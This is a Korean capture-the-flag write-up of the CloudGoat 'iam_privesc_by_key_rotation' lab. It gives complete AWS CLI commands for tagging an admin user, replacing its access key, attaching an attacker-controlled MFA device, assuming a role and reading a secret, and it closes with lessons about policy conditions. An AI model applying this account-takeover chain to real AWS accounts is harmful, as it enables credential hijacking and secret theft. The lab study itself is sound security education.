

# 5th Scenario: iam_privesc_by_key_rotation

[← CloudGoat 시나리오 목록](../README.md)

난이도: Easy 



이번엔 3개의 IAM User와 1개의 Role, 1개의 비밀이 제공된다. 시작이 manager 역할이고, 개요를 보니 manager 역할을 이용해 과다 전개된 admin 권한을 이용, 보면안되는 관리 대상들의 비밀을 보는 것을 판단된다. 

# 진행

이번에도 역시 초반부분은 직접 진행할 예정이다. 아무래도 계속 Codex에게 해줘~ 하기에는 나한테도 도움이 안될 것 같다. 


이번에는 start.txt에 AWS account id도 같이 제공되었다. 이유가 뭔지는 잘 모르겠다. 


관계형 유저 정책에는 IAMReadOnlyAccess 정책이 존재하고

개별 유저 정책에는 SelfManageAccess와 TagResources 정책이 존재하는 것을 확인하였다.

- IAMReadOnlyAccess의 상세내용


- SelfManageAccess의 상세내용


- TagResources의 상세내용


이제 찾는 것 정도는 진행이 가능해지고 있다. 하지만, 이를 정보를 해석하고 가공하는 것은 아직 아무것도 모르기 때문에 알 수가 없다. 
AI가 없다면 이 Action들에 대해서 하나하나 찾고 진행해야겠지만… 지금부터 다시 Codex가 투입될 시기다. 

지금까지 찾은 정책들을 조합하면 5번 문제의 핵심 취약점은 다음과 같아.

```
manager
  ├─ 모든 IAM 사용자에게 태그를 붙일 수 있음
  └─ developer=true 태그가 있는 사용자의
       ├─ Access Key 변경 가능
       └─ MFA 변경 가능

admin
  └─ MFA 인증 시 Secrets Manager Role을 AssumeRole 가능

결과:
admin에게 developer=true 태그 추가
→ admin의 새 Access Key 생성
→ admin에게 내가 제어하는 MFA 등록
→ admin으로 Secrets Manager Role 사용
→ 최종 Secret 조회
```

정책 하나하나는 제한적으로 보이지만, `TagUser` 권한이 조건문의 의미를 무너뜨린 것이 핵심이야.

---

## 1. 대상 이름만 변수로 정리

프로필 등록과 정책 열람은 이미 끝냈으니 반복하지 않겠다.

현재 시나리오 ID를 기준으로 하면 다음과 같아.

```
PROFILE="manager"
ACCOUNT_ID="905896283233"
CGID="cgid4javehk8mx"

MANAGER_USER="manager_${CGID}"
ADMIN_USER="admin_${CGID}"
ROLE_NAME="cg_secretsmanager_${CGID}"
ROLE_ARN="arn:aws:iam::${ACCOUNT_ID}:role/${ROLE_NAME}"
```

변수가 제대로 들어갔는지만 확인한다.

```
printf 'Manager: %s\nAdmin: %s\nRole: %s\n' \
  "$MANAGER_USER" "$ADMIN_USER" "$ROLE_ARN"
```

변수는 AWS에 저장되는 것이 아니라 현재 터미널에서 긴 문자열을 반복 입력하지 않기 위한 별칭이다.

---

# 2. 첫 번째 연결점: 조건부 권한 분석

네가 확인한 `SelfManageAccess` 정책에는 대략 이런 구조가 있었을 거야.

```
{
  "Effect": "Allow",
  "Action": [
    "iam:DeleteAccessKey",
    "iam:UpdateAccessKey",
    "iam:CreateAccessKey",
    "iam:EnableMFADevice"
  ],
  "Resource": [
    "arn:aws:iam::...:user/*",
    "arn:aws:iam::...:mfa/*"
  ],
  "Condition": {
    "StringEquals": {
      "aws:ResourceTag/developer": "true"
    }
  }
}
```

의미는 다음과 같아.

> 모든 사용자의 키를 변경할 수 있는 것은 아니고, 대상 사용자에게 `developer=true` 태그가 붙어 있을 때만 변경할 수 있다.
> 

원래 의도는 developer 사용자만 manager가 관리하게 하는 것이었어.

그런데 별도의 `TagResources` 정책에는 다음 Action이 있어.

```
iam:TagUser
```

그리고 Resource가 `*`였지.

따라서 manager가 직접 admin에게 조건을 만족하는 태그를 붙일 수 있다.

```
권한 검사 전:
admin 태그 없음 → CreateAccessKey 거부

manager가 TagUser 실행:
admin에 developer=true 추가

권한 검사 후:
admin 태그가 developer=true → CreateAccessKey 허용
```

이런 문제를 흔히 “변경 가능한 리소스 태그를 보안 경계로 사용한 오류”라고 이해하면 돼.

---

# 3. admin에게 `developer=true` 태그 추가


이 admin이 어디에서 나왔나 했는데, user에 대한 확인을 하지 았았었다. 앞으론 잊지않고 해야겠다. 


유저이름 저장과 Role도 전부 확인을 진행하였다. 

먼저 현재 태그를 확인한다.

```
aws iam list-user-tags \
  --user-name "$ADMIN_USER" \
  --profile "$PROFILE"
```


일단 admin과 manager 둘 다 확인해본다. 지금 궁금한 점이 admin이 아니라 manager 자신을 대상으로도 tag가 되지 않을까하는 생각이다. 일단 진행해본다. 

이제 태그를 추가한다.

```
aws iam tag-user \
  --user-name "$ADMIN_USER" \
  --tags Key=developer,Value=true \
  --profile "$PROFILE"
```

`tag-user`의 구조는 다음과 같아.

```
aws iam tag-user
        └───────┘ 수행할 IAM 작업

--user-name "$ADMIN_USER"
             └─────── 태그를 붙일 대상

--tags Key=developer,Value=true
       └─────────────────────── 실제 태그

--profile "$PROFILE"
          └────────── manager 권한으로 실행
```

성공하면 보통 아무 출력도 나오지 않는다. AWS CLI의 변경 명령은 성공 시 빈 화면을 반환하는 경우가 많아.

다시 확인한다.

```
aws iam list-user-tags \
  --user-name "$ADMIN_USER" \
  --profile "$PROFILE"
```

결과는 다음과 같다.


이제 `SelfManageAccess` 정책의 Condition이 admin에 대해서도 참이 된다.


허허 근데 manager에도 동일하게 적용이 된다. 이거이거 한 번 같이 두 계정을 동시에 진행해보려고 한다. 

---

# 4. admin의 Access Key 상태 확인

```
aws iam list-access-keys \
  --user-name "$ADMIN_USER" \
  --profile "$PROFILE" \
  --output table
```

중요한 점은 AWS IAM 사용자 한 명당 Access Key를 최대 2개만 가질 수 있다는 것이다.


admin은 2개의 비활성키가, manager는 활성중인 본인의 키를 가진 것을 확인하였다. 

이 시나리오의 admin은 이미 비활성 키 2개를 가지고 있도록 만들어져 있다. 따라서 곧바로 `create-access-key`를 실행하면 다음 오류가 날 가능성이 높아.

```
LimitExceeded: Cannot exceed quota for AccessKeysPerUser
```

즉, 기존 키를 최소 하나 삭제해 빈자리를 만들어야 한다.

여기서 `Inactive`는 키를 사용할 수 없다는 뜻이지, 키 슬롯을 차지하지 않는다는 뜻은 아니다.

---

# 5. 비활성 Access Key 하나 삭제

먼저 삭제할 비활성 키 하나를 변수로 선택한다.

```
OLD_KEY_ID="$(
  aws iam list-access-keys \
    --user-name "$ADMIN_USER" \
    --profile "$PROFILE" \
    --query 'AccessKeyMetadata[?Status==`Inactive`].AccessKeyId | [0]' \
    --output text
)"
```

확인한다.

```
echo "$OLD_KEY_ID"
```

여기서 Query의 의미는 다음과 같아.

```
AccessKeyMetadata
└─ Access Key 배열로 이동

[?Status==`Inactive`]
└─ Status가 Inactive인 항목만 필터링

.AccessKeyId
└─ 그 항목들에서 AccessKeyId만 추출

| [0]
└─ 첫 번째 키 하나 선택
```

즉 JSON 출력을 사람이 눈으로 읽고 복사하는 과정을 AWS CLI의 JMESPath Query가 대신한 것이다. `grep`과 목적은 비슷하지만, 문자열이 아니라 JSON의 구조를 기준으로 선택한다는 점이 다르다.

값이 `None`이 아닌 것을 확인한 다음 삭제한다.

```
aws iam delete-access-key \
  --user-name "$ADMIN_USER" \
  --access-key-id "$OLD_KEY_ID" \
  --profile "$PROFILE"
```

이 작업은 시나리오가 끝나면 `cloudgoat destroy`로 정리될 실습용 리소스를 대상으로 한다.


성공적으로 삭제하였다. 

그리고 지금하는 것에서 manager에 tag 붙이고 하지 않아도 되는 이유는, 지금 작업의 목적이 이 admin 계정을 내가 탈취하려는 목적이라는 것이다.

 생각해보니 manager는 이미 내가 사용하고 있는 시점에서 그냥 사용이 가능하다. 

결국 secretsmanger 사용은 admin이 해야하는 것인데 말이야. 이제 이해가 되었다. 

---

# 6. admin의 새 Access Key 생성

이제 admin 사용자로 인증할 수 있는 새 키를 만든다.

```
aws iam create-access-key \
  --user-name "$ADMIN_USER" \
  --profile "$PROFILE"
```

결과는 대략 다음과 같다.

```
{
  "AccessKey": {
    "UserName": "admin_...",
    "AccessKeyId": "AKIA...",
    "Status": "Active",
    "SecretAccessKey": "..."
  }
}
```

여기서 매우 중요한 차이가 있어.

```
이 명령을 실행한 주체: manager
생성된 키가 나타내는 신원: admin
```

manager가 키를 생성했지만, 그 키를 사용하면 AWS는 요청자를 admin으로 인식한다.

또한 `SecretAccessKey`는 이 응답에서만 확인할 수 있다. 화면을 닫거나 잃어버리면 AWS에서 다시 조회할 수 없고, 키를 삭제한 다음 새로 만들어야 한다.

생성된 두 값을 평소처럼 새 프로필에 등록하자.

```
aws configure --profile keyrotation_admin
```

입력:

```
AWS Access Key ID: 방금 생성된 AccessKeyId
AWS Secret Access Key: 방금 생성된 SecretAccessKey
Default region name: us-east-1
Default output format: json
```

신원을 반드시 검증한다.

```
aws sts get-caller-identity \
  --profile keyrotation_admin
```

정상이라면 ARN이 다음 형태여야 한다.

```
arn:aws:iam::905896283233:user/admin_cgid4javehk8mx
```

이 단계에서 얻은 것은 “관리자라는 이름을 가진 IAM 사용자 신원”이지, 곧바로 AWS 전체 관리자 권한을 얻은 것은 아니다. 이 admin 사용자의 특별한 가치는 `cg_secretsmanager_...` Role을 맡을 수 있다는 점이다.


성공적으로 진행하였다. 

---

# 7. 바로 Role을 맡아보면 왜 실패하는가?

먼저 MFA 없이 실행해봐도 학습상 의미가 있다.

```
aws sts assume-role \
  --role-arn "$ROLE_ARN" \
  --role-session-name cloudgoat-test \
  --profile keyrotation_admin
```

예상 결과는 `AccessDenied`다.


이유는 권한이 양쪽에서 모두 허용되어야 하기 때문이다.

```
admin의 Identity Policy
    └─ sts:AssumeRole 허용             ✓

Role의 Trust Policy
    └─ 해당 계정을 신뢰                ✓
    └─ MFA가 존재해야 함               ✗
```

Role의 Trust Policy에는 다음 조건이 있다.

```
"Condition": {
  "Bool": {
    "aws:MultiFactorAuthPresent": true
  }
}
```

따라서 Access Key만 탈취해서는 Role을 맡을 수 없고, MFA 인증이 포함된 STS 요청이어야 한다.

문제는 manager가 admin의 MFA까지 관리할 수 있다는 점이야.

---

# 8. 내가 제어하는 가상 MFA 장치 생성

MFA 앱은 Google Authenticator, Microsoft Authenticator, 2FAS 같은 TOTP 앱이면 된다.

MFA 이름을 변수로 만든다.

```
MFA_NAME="cloudgoat-${CGID}"
MFA_ARN="arn:aws:iam::${ACCOUNT_ID}:mfa/${MFA_NAME}"
MFA_QR="/tmp/${MFA_NAME}.png"
```

가상 MFA 장치를 생성하고 QR 이미지를 저장한다.

```
aws iam create-virtual-mfa-device \
  --virtual-mfa-device-name "$MFA_NAME" \
  --bootstrap-method QRCodePNG \
  --outfile "$MFA_QR" \
  --profile "$PROFILE"
```

확인:

```
echo "$MFA_ARN"
ls -l "$MFA_QR"
```

VS Code를 WSL 환경에서 사용 중이라면 파일 탐색기에서 `/tmp`가 불편할 수 있다. QR 파일을 홈으로 복사해도 된다.

```
cp "$MFA_QR" "$HOME/${MFA_NAME}.png"
```


일단 생성을 진행하긴 하였다. 


또한 성공적으로 생성되었다. 

VS Code에서 해당 PNG 파일을 클릭하고, 휴대전화의 Authenticator 앱으로 QR 코드를 스캔한다.

우리가 쓰는 Google OTP나 그런 걸로 등록할 수 있으며, 정상적으로 OTP가 동작하는 것을 확인하였다. 
아래는 예시 


이 단계에서 생성한 것은 아직 admin에 연결된 MFA가 아니다.

```
가상 MFA 장치 생성됨 ✓
admin 사용자와 연결됨 ✗
```

---

# 9. MFA를 admin 사용자에게 연결

Authenticator 앱에는 30초마다 6자리 숫자가 나타난다. AWS에서 MFA를 처음 활성화할 때는 연속된 코드 두 개가 필요하다.

진행 방법:

1. 현재 코드가 막 바뀐 직후 첫 번째 코드를 확인한다.
2. 그 값을 `CODE1`에 저장한다.
3. 다음 30초 주기의 새 코드가 나올 때까지 기다린다.
4. 새 값을 `CODE2`에 저장한다.

```
CODE1="첫_번째_6자리"
CODE2="다음_주기의_6자리"
```

두 코드는 서로 다른 연속 시간 구간의 값이어야 한다.

```
aws iam enable-mfa-device \
  --user-name "$ADMIN_USER" \
  --serial-number "$MFA_ARN" \
  --authentication-code1 "$CODE1" \
  --authentication-code2 "$CODE2" \
  --profile "$PROFILE"
```

이 명령도 성공하면 별도 출력이 없을 수 있다.

등록 여부를 확인한다.

```
aws iam list-mfa-devices \
  --user-name "$ADMIN_USER" \
  --profile "$PROFILE" \
  --output table
```

여기에 방금 만든 `MFA_ARN`이 나오면 된다.


어후 MFA 등록하는데 오타나 잘못된 변수 입력으로 우여곡절이 있었다. 

이 공격이 가능한 이유도 동일하다.

```
admin에 developer=true 태그가 있음
        +
manager에게 iam:EnableMFADevice가 있음
        ↓
manager가 admin의 MFA를 자신이 제어하는 장치로 등록
```

MFA는 일반적으로 보안을 강화하지만, 누가 MFA 장치를 등록·교체할 수 있는지가 허술하면 공격자가 자신의 MFA를 피해자의 계정에 연결할 수 있다.

---

# 10. MFA를 사용해 Secrets Manager Role 맡기

Authenticator 앱에서 현재 6자리 코드를 새로 확인한다.

```
TOKEN_CODE="현재_6자리"
```

이번에는 `--serial-number`와 `--token-code`가 추가된다.

```
aws sts assume-role \
  --role-arn "$ROLE_ARN" \
  --role-session-name cloudgoat-secret-session \
  --serial-number "$MFA_ARN" \
  --token-code "$TOKEN_CODE" \
  --profile keyrotation_admin
```

결과에는 다음 세 값이 나온다.

```
AccessKeyId
SecretAccessKey
SessionToken
```

여기서 `AccessKeyId`가 `ASIA...`로 시작하는 이유는 STS가 발급한 임시 자격 증명이기 때문이다.

```
AKIA... → 보통 IAM 사용자의 장기 Access Key
ASIA... → STS가 발급한 임시 Access Key
```


정상적으로 자격증명이 출력된 것을 볼 수 있다. 

이번에는 복사 작업을 줄이기 위해 결과를 바로 셸 변수로 받자. 새로운 MFA 코드를 사용해야 한다.

```
TOKEN_CODE="현재_새로운_6자리"

read ROLE_ACCESS_KEY ROLE_SECRET_KEY ROLE_SESSION_TOKEN <<< "$(
  aws sts assume-role \
    --role-arn "$ROLE_ARN" \
    --role-session-name cloudgoat-secret-session \
    --serial-number "$MFA_ARN" \
    --token-code "$TOKEN_CODE" \
    --profile keyrotation_admin \
    --query 'Credentials.[AccessKeyId,SecretAccessKey,SessionToken]' \
    --output text
)"
```

세 값을 화면에 출력하지 않고 프로필에 등록한다.

```
aws configure set aws_access_key_id "$ROLE_ACCESS_KEY" \
  --profile keyrotation_secret_role

aws configure set aws_secret_access_key "$ROLE_SECRET_KEY" \
  --profile keyrotation_secret_role

aws configure set aws_session_token "$ROLE_SESSION_TOKEN" \
  --profile keyrotation_secret_role

aws configure set region us-east-1 \
  --profile keyrotation_secret_role
```

신원을 확인한다.

```
aws sts get-caller-identity \
  --profile keyrotation_secret_role
```

이번 ARN은 IAM User가 아니라 assumed role 형태여야 한다.

```
arn:aws:sts::905896283233:assumed-role/
cg_secretsmanager_cgid4javehk8mx/
cloudgoat-secret-session
```


제대로 등록되었고, role에 대한 access/secret key를 넣으면 Session Token도 추가적으로 기입시키도록 한다는 것을 알게 되었다. 

신원 변화는 이렇게 정리된다.

```
manager IAM User
   │ admin의 키를 새로 생성
   ▼
admin IAM User
   │ MFA를 증명하고 sts:AssumeRole
   ▼
cg_secretsmanager Role의 임시 세션
```

---

# 11. Secret 목록 확인

Role 정책에는 다음 두 Action이 있었다.

```
secretsmanager:ListSecrets
secretsmanager:GetSecretValue
```

먼저 목록을 확인한다.

```
aws secretsmanager list-secrets \
  --profile keyrotation_secret_role \
  --region us-east-1 \
  --query 'SecretList[].{Name:Name,Description:Description}' \
  --output table
```

여기서 `ListSecrets`는 비밀의 이름과 메타데이터를 보는 권한이다. 실제 비밀값을 읽는 권한과는 다르다.

최종 대상은 다음 이름이다.

```
SECRET_NAME="cg_secret_${CGID}"
```


비밀 목록이 하나 출력된 것을 확인하였다. 

비밀값을 가져온다.

```
aws secretsmanager get-secret-value \
  --secret-id "$SECRET_NAME" \
  --profile keyrotation_secret_role \
  --region us-east-1 \
  --query SecretString \
  --output text
```

여기서 출력되는 flag가 시나리오의 최종 목표다.


flag 확보에 성공하였으며, 다음과 같다.

flag{14m_PERM15510N5_4Re_5C4R_0b301637b22569819197f864758a458be7ef7ff7292f28756b33873834167e73} 

---

## 이번 문제에서 반드시 이해할 포인트

이 문제는 단순히 “Access Key를 만들 수 있어서 위험하다”가 아니다. 여러 정책 조각이 연결되면서 권한 상승이 발생했다.

```
① TagUser(Resource="*")
   → 공격자가 권한 조건을 만족하는 태그를 직접 생성

② CreateAccessKey(Condition: developer=true)
   → admin 신원의 새 자격 증명 발급

③ EnableMFADevice(Condition: developer=true)
   → admin의 MFA도 공격자가 제어

④ admin의 sts:AssumeRole
   → Secrets Manager Role 요청 가능

⑤ Role의 MFA 조건
   → 공격자가 등록한 MFA로 조건 충족

⑥ GetSecretValue
   → 최종 비밀 조회
```

특히 AWS IAM을 분석할 때는 Action 이름만 보면 안 되고, 다음 네 가지를 함께 봐야 한다.

```
Effect     허용인가 거부인가
Action     어떤 작업인가
Resource   어느 대상에 가능한가
Condition  어떤 조건에서 가능한가
```

그리고 추가로 물어야 한다.

> 나는 이 Condition에 사용되는 속성 자체를 변경할 수 있는가?
> 

이번 문제의 답은 “그렇다”였고, 그것이 전체 권한 상승의 출발점이다.